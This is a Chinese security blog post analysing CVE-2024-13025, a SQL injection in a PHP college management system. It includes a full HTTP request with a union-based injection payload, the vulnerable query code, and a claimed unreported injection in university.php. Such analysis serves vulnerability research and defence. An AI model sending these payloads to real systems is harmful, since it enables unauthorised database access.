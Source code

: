 #  CVE-2024-13025-Codezips 大学管理系统 faculty.php sql 注入分析及拓展   
 船山信安   2025-01-19 16:01  
  
##   
## Codezips  
  
里面有很多cms系统，其中的一个College Management System In PHP With Source Code存在sql注入漏洞。  
## 复现  
  
对源码进行下载登录。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicPOfibJhGkOyle0L6sBU04VEXcm83XGPPIA1sWiaAwiaey96cLBXEQia7ibXSicEq3yyZxWHxib2vv9VhYrQ/640?wx_fmt=png&from=appmsg "")  
  
里面有很多远程js加载不出来但是不影响接口使用。  
  
对于/college-mgmt-php-master/Front-end/faculty.php接口进行测试。  
  
数据包为  
```
POST /college-mgmt-php-master/Front-end/faculty.php HTTP/1.1Host: localhostSec-Fetch-Mode: navigateAccept-Language: zh-CN,zh;q=0.9Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36Cache-Control: max-age=0Origin: http://localhostAccept-Encoding: gzip, deflate, br, zstdContent-Type: application/x-www-form-urlencodedSec-Fetch-Dest: documentReferer: http://localhost/college-mgmt-php-master/Front-end/login.phpsec-ch-ua-mobile: ?0Cookie: PHPSESSID=40a20a299e19c127ad0ed71b0cf004cbSec-Fetch-User: ?1Sec-Fetch-Site: same-originUpgrade-Insecure-Requests: 1sec-ch-ua-platform: "Windows"Content-Length: 59book_name=x'+union+select+NULL,database(),NULL,NULL--+-&book_author=x&search_book=
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicPOfibJhGkOyle0L6sBU04VEjprZXmv0YezoM88qQs33Eymgc0D1WOrm613rEUh4Q9JMndy5MkE1XQ/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicPOfibJhGkOyle0L6sBU04VEnibaLw7Bx0tgfBxDJKt98COlXE0hic7BS1tzyWcEFB5IqFnP6bZ9sdsw/640?wx_fmt=png&from=appmsg "")  
  
复现成功，即faculty.php下的book_name/book_author字段存在sql注入。  
## 源码分析  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicPOfibJhGkOyle0L6sBU04VECSd9iaQzQGuT89FO5PGko1RcibgRZtqU1GYsqa2klwZCmswiaQLah3h5A/640?wx_fmt=png&from=appmsg "")  
```
<?php                  if(isset($_POST['search_book']))                  {                    $name=$_POST['book_name'];                    $author=$_POST['book_author'];                    $query = "SELECT * FROM book WHERE book_name = '$name' AND author = '$author'";                    $results = mysqli_query($db, $query);                    $row = mysqli_fetch_array($results);                   ?>
```  
  
在这里面先是判断了search_book字段是否为空，为空则引入book_name和book_author带到sql query里面。  
  
是一个非常经典的无过滤导致sql注入。  
  
CVE-2024-13025分析结束。  
## 0day  
  
经过代码审计，在university.php文件下存在与之前一模一样的漏洞，明显是之前漏洞挖掘者忽略的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicPOfibJhGkOyle0L6sBU04VEvqAeX4qH3WUicmelhqQQEPrxUF3cZmj5bbq3X1nFofwHJC2tnicpwMTQ/640?wx_fmt=png&from=appmsg "")  
  
使用联合注入即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicPOfibJhGkOyle0L6sBU04VESRCNQ3nzlndYjF7j5FjacicO88U91Iic5LEGFP3ZmNvRWJvolr9a2Vbg/640?wx_fmt=png&from=appmsg "")  
## 风险代码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicPOfibJhGkOyle0L6sBU04VEcphjHQbhdM8ql1W8uWM0yIQ8AmbfvGUWqsfKG2TlWGXZAatKtfKsbA/640?wx_fmt=png&from=appmsg "")  
  
这段代码是visitor表插入的逻辑，也是页面登录用户的逻辑  
  
利用这个接口，可以绕过前端全部对于邮箱格式、密码长度等检测。属于风险代码。可以导致插入一些风险代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicPOfibJhGkOyle0L6sBU04VEQ84ncp1ria79VFz4NGfYZVsibJPZyWT4zGQnts1IAIHzwOHIibkiaKNTvw/640?wx_fmt=png&from=appmsg "")  
  
可以看到插入成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicPOfibJhGkOyle0L6sBU04VEUelerKODvAFJNwNVy46VJic8eoK8LMJcHTE724rJia19CMkqEOwE3vHg/640?wx_fmt=png&from=appmsg "")  
  
此cve 是一个sql注入，同时此cms还有一个sql注入的0day是没有发现的，这里我代码审计进行了补充。同时也存在一定的风险代码问题，需要在代码审计时引起注意。  
  
  
【作者】：1726080508280144  
  
